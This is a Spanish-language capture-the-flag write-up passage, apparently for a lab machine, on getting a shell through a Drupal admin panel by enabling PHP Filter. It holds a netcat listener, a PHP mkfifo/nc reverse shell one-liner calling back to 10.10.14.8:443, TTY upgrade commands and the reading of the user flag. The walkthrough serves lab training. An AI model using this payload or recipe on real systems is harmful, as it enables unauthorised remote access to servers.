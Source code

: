 ## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Conexion por Druppal {-}

Para ejecutar comandos o mejor dicho, para ganar accesso al sistema desde un admin panel de drupal siempre es el mismo.

1. En modules, habilitar el componente PHP Filter

    ```{r, echo = FALSE, fig.cap="Drupal - habilitar PHP Filter", out.width="90%"}
    knitr::include_graphics("images/drupal-phpfilter.png")
    ```

1. Crear un nuevo contenido

    ```{r, echo = FALSE, fig.cap="Drupal - Nuevo articulo", out.width="90%"}
    knitr::include_graphics("images/drupal-new-article.png")
    ```

1. Ponernos en escucha en el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En drupal añadir en el body

    ```php
    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
    ```

1. En Text Format le ponemos a **PHP code**
1. Le damos al boton Preview

Ya hemos ganado accesso al sistema como el usuario *www-data*

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Analizamos la maquina {-}

```bash
ls -l
cd /home
ls
cd /daniel
cat user.txt
```

Aqui encontramos un usuario **daniel** y tenemos derechos de escritura. Ya podemos visualizar la flag. Lo mas probable aqui
seria de convertirnos directamente en el usuario root.

